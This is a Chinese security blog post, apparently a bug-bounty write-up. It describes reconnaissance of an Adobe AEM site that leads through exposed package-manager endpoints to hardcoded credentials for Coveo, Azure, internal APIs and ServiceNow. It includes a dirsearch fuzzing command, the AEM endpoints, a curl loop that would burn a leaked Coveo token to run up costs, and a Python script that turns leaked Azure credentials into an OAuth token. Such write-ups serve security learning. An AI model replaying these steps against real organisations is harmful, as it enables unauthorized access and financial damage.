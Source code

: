 #  通过高效的侦察发现关键漏洞接管整个IT基础设施   
白帽子左一  白帽子左一   2025-01-13 04:01  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFbaUgVwdsriauB77CgQS8lyBNAxtx9IMqJQdhuuoITunu8A5Gp7kFjF7BvEXSaLMuDTYhnu7Nicghg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
**来****Track安全社区投稿~**  
  
**赢千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
  
**在这篇文章中，** 我将深入探讨我是如何通过详细分析和利用暴露的端点、硬编码的凭据以及配置错误的访问控制，成功获取目标组织关键IT基础设施和云服务访问权限的全过程。  
  
我们先提到目标网站的名称   
**https://*sub.domain*.com**[1]  
  
在我的**主动侦察**中，我发现目标**使用 AEM 作为内容管理系统 (CMS)**，并且**由 Java 驱动**。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xicsFElcFL2wUePVLdZqdXXNFJOZ7FRnJVac2LkQOR88JsZrSP8nY4Tw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
首先，我**收集了用于 AEM CMS 和 JSP 的字典**以及**端点**。  
  
然后，我进行了**模糊测试 (fuzzing)**，并发现了一些有用的端点。  
```
/crx/packmgr/index.jsp
/etc.feed.xml
/crx/bin.ext.json
/crx/.ext.infinity.json
```  
  
当我发现 **/etc.feed.xml** 时，找到了相关内容。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x9AfJlD7BrF9e5hX5ZtRsva1pbUPKgHAGs8ywP6vsBbAjcibjX7C9d9w/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后引起我注意的是这个 URL：  
  
**https://sub.domain.com/etc/packages.feed.xml**[2] **发现了许多**包，这些包的格式如下：  
```
https://sub.domain.com/etc/packages/{groupOfPackage}/{nameOfPackage}.zip
```  
  
访问任何符合该格式的 URL **都可以下载任意包**， 但在深入研究这些包后，**没有发现任何有趣的内容**。  
  
然后再次回到使用 **JSP 字典**对有趣的端点进行模糊测试。  
```
dirsearch -u https://sub.domain.com/crx/packmgr/ --random-agent -i 200 -w jsp.txt
```  
  
发现了这个端点：https://sub.domain.com**/crx/packmgr/service.jsp**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xeqbtpDJXnyF5qVy1edhkYl1ZbEaMam1Mnl3g0oTUHeHib76T8E90z8Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
img  
  
我请我的朋友协助执行操作。然而，我们发现用户是 **anonymous**（匿名用户），除了通过添加 cmd 参数列出所有包之外，无法执行任何其他操作。  
```
https://sub.domain.com/crx/packmgr/service.jsp?cmd=ls
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x9ZgD2fX5mPEp2STdW8iasaWhapb4YrQO1kPgk8oujiaq7vjF4ftZpAkQ/640?wx_fmt=png&from=appmsg "")  
  
img  
  
**检索到约 1173 个包和约 100 个配置包。**  
  
我**想起**可以使用以下格式下载这些包：  
```
https://sub.domain.com/etc/packages/{groupOfPackage}/{nameOfPackage}.zip
```  
  
于是，我编写了一个简单的脚本来下载所有包。然后，我深入研究了**配置包**，**发现了大量硬编码的凭据**。  
  
**1- 泄露了所有作者的邮箱**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xejQD8jqPrUMgVQRYuyw6oxPlF5k6crciaibGKJQE8KQT5d2heMqbLZZw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
**2- Covo 服务配置（付费服务）**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xmbJ79ZcvSO2stR7WCkOQ4r9hbxNGCGMCBZLe0BnMS5CQWwtxjuSic3A/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
for i in {1..10000}; do
  curl -X GET "https://platform.cloud.coveo.com/rest/search/v2?organizationId={clientId}&q=*" \
    -H "Authorization: Bearer {accesstoken}" \
    -H "Content-Type: application/json";
done
```  
  
**我可以通过使用简单的 bash 脚本让组织损失大量资金，因为这个访问令牌是有效的。**  
  
**3- 有效的凭据用于** API 管理并提供对托管在 https://**sub3****.domain.com** 上的仓库的访问。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x2d2DCtiaORgibEXLQRBib9zokic67HOUG14UKOlE6KjJMLPatlWma642tg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xRzQVTSp3wHjAIic9pibHvibBRjGRYKibsy7r6ibVPcryxgPyPLicMhrtibfTw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
4- **ARIA-azure-凭据**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xiaKpCKcwzFmxTw5eoa4dEhyNk8F27ib3uNp4SkLia5NCOFQfFs91vbjhg/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
import requests

# Define the authentication parameters
tenant_id = "{tenant_id}"
client_id = "{client_id}"
client_secret = "{client_secret}"
scope = "https://sub.cloudapp.domain.com/.default"

# URL to get the OAuth token
token_url = f"https://login.microsoftonline.com/{tenant_id}/oauth2/v2.0/token"

# Define the request payload
payload = {
    "grant_type": "client_credentials",
    "client_id": client_id,
    "client_secret": client_secret,
    "scope": scope
}

# Make a POST request to get the token
response = requests.post(token_url, data=payload)

# Check if the request was successful
if response.status_code == 200:
    # Parse the JSON response
    token_response = response.json()
    access_token = token_response.get("access_token")
    print("Access Token:", access_token)
else:
    # If the request failed, print the error
    print("Failed to get the access token:", response.status_code, response.text)
```  
  
这个 Python 脚本使用凭据检索 OAuth 访问令牌，以便与 **api** 交互，访问 https://sub.cloudapp.domain.com/  
  
5-   
**ServiceNow**[3]（IT 服务管理）  
  
通过使用这些**泄露的凭据**，我拥有所有**权限（创建、删除、编辑）**。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xxmhIOIlCplIEJ0MxrA0PwyhLW1sZcyfvsNynt8lQddeHr1s9ia7fHbA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xkpZ2KYG387Hcia89MeEFHibTmmUaxXhamuBArqR70NG3mra6M4zNic4Dg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xrzHFbkWUQFLLaEXKNibx3gbMAEG7NZnicKiah7Zrx9xar8ImhzLHCg8xw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x7AyxxWnicXVgXX6gmJianJu3FiandM2gl6HhmZF7HVicsiaiaxtJwY0CxUpQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
**声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学********习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。所有渗透都需获取授权！**  
  
**如果你是一个网络安全爱好者，欢迎加入我的知识星球：zk安全知识星球,我们一起进步一起学习。星球不定期会分享一些前沿漏洞，每周安全面试经验、SRC实战纪实等文章分享，微信识别二维码，即可加入。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFIJlRFYoItlJDrScxuTPmfnqibC1ApJ2OKh5sF41qicCo5AvQ4icuG8kbqQxZ5HVypvJ8jZDzsmD37Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
